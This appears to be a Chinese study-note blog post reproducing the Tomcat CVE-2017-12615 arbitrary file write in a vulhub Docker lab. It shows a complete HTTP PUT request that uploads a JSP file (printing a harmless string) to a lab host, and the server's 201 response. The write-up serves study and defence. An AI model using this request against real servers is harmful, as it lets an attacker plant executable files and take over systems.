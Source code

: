 ```yaml
---
title: 【代码审计】Tomcat 任意文件写入 CVE-2017-12615
date: 2021-12-16 17:26:16
id: 211216-172616
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202112161721745.png
tags:
- 学习笔记
- 代码审计
categories:
- 代码审计
---
```


# 0x00 环境搭建

直接 Docker 搭建即可

```bash
git clone https://github.com/vulhub/vulhub.git
cd /vulhub/tomcat/CVE-2017-12615
sudo docker-compose build
sudo docker-compose up -d
```

# 0x01 漏洞复现

直接使用 PUT 发起请求就可以上传任意文件，比如向 /teamssix.jsp/ 发起请求

```plain
PUT /teamssix.jsp/ HTTP/1.1
Host: 172.16.214.20:8080
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 26

<%out.print("TeamsSix");%>
```

```
HTTP/1.1 201 
Content-Length: 0
Date: Wed, 15 Dec 2021 07:19:29 GMT
Connection: close
```
